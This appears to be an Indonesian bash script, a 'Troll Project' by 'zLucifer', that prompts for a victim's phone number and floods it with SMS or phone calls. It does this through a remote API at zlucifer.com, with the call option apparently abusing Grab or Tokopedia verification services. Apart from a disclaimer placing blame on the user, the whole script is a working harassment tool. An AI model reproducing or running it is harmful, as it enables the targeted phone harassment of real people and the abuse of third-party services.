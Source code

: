 # Projectlizzle
Lizzleproject
#!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                       _            _  __                              ////
#////                      | |          (_)/ _|                             ////
#////                   ___| |_   _  ___ _| |_ ___ _ __                     ////
#////                  |_  / | | | |/ __| |  _/ _ \ '__|                    ////
#////                   / /| | |_| | (__| | ||  __/ |                       ////
#////                  /___|_|\__,_|\___|_|_| \___|_|                       ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    clear
    sleep 0.03
    echo "         _ "
    sleep 0.03
    echo "        /_)  _.-===-._ "
    sleep 0.03
    echo "       /  .; '_-.'- .'.     _ "
    sleep 0.03
    echo "  __ _/  /.'\ ._  '. , \   (_\ "
    sleep 0.03
    echo " /\_( \  |.'.-._'- .  '|     \ "
    sleep 0.03
    echo " |_)  /  |/'    ''--''\|     _\__ "
    sleep 0.03
    echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "
    sleep 0.03
    echo " )/  (  \_      _      _/   \' (_| "
    sleep 0.03
    echo " /   /    \           /     _) (_/ "
    sleep 0.03
    echo " |   '',_ _'._'---'_.'_ _,.'    | \ "
    sleep 0.03
    echo " \    /  \ \  '''''  / / /     /   \ "
    sleep 0.03
    echo "  \_.'    \ \       / /  |   .' "
    sleep 0.03
    echo "   '--.,   \ \     / /  _;-'' "
    sleep 0.03
    echo "       '|   \ \   / /   | "
    sleep 0.03
    echo "       .;----'''''''----;. "
    sleep 0.03
    echo "      /(                 )\ "
    sleep 0.03
    echo "      \_''-------------''_/ "
    sleep 0.03
    echo "      | '';-----;-----;'' | "
    sleep 0.03
    echo "      | / : \ / : \ / : \ | "
    sleep 0.03
    echo "      |V.','.V.','.V.','.V| "
    sleep 0.03
    echo "      \'./_\.;./_\.;./_\.'/ "
    sleep 0.03
    echo "       ';..___________..;' "
    sleep 0.03
    echo " ============================="
    sleep 2
    echo " ==      Troll Project      =="
    sleep 0.7
    echo " ============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_sms=$(curl -s http://zlucifer.com/api/sms.php)
get_call=$(curl -s http://zlucifer.com/api/call.php)
mulai (){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ]; then
            spam
    else
            echo "Terimakasih sudah menggunakan Troll project"
    fi
}
#spam
spam(){
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Close Troll Project"
    echo
    echo "1/2/3?"
    read pilih
    if [ $pilih = "1" ]; then
            echo "Troll Spam SMS"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Berapa sms yang mau dikirim?"
            read paket
            echo
            echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                    load
                    clear
                    echo Melakukan spam SMS ke nomor $target
                    echo
                    echo "Jangan close aplikasi sebelum spam selesai"
                    echo "========================================"
                    target_do=$get_sms'/sms.php?nomor='$target'&paket='$paket
                    CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
                    echo " Gunakan tools dengan bijak"
                    echo
                    echo " Love u always "
                    echo " -zLucifer"
                    echo "======================================="
            else
                    echo "Kesalahan"
            fi
        mulai
    elif [ $pilih = "2" ]; then
            echo "Troll Spam Call"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Gunakan API Grab/Toped?"
            echo "[1] GRAB"
            echo "[2] TOPED"
            echo "1/2?"
            read api
            if [ $api = "1" ]; then
                  api_spam="grab"
            else
                  api_spam="toped"
            fi
            echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                  load
                  clear
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -s $get_call/call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u always "
                  echo " -zLucifer"
                  echo "========================================"
            else
                  echo Kesalahan, silahkan coba lagi
            fi
        mulai
    elif [ $pilih = "3" ]; then
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        echo "Kesalahan"
        mulai
    fi
}
close(){
    exit
}
clear
echo "Loading.."
load
clear
troll
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai troll project?"
echo "y/n?"
read mulai
if [ $mulai = "y" ]; then
      spam
else
      close
fi
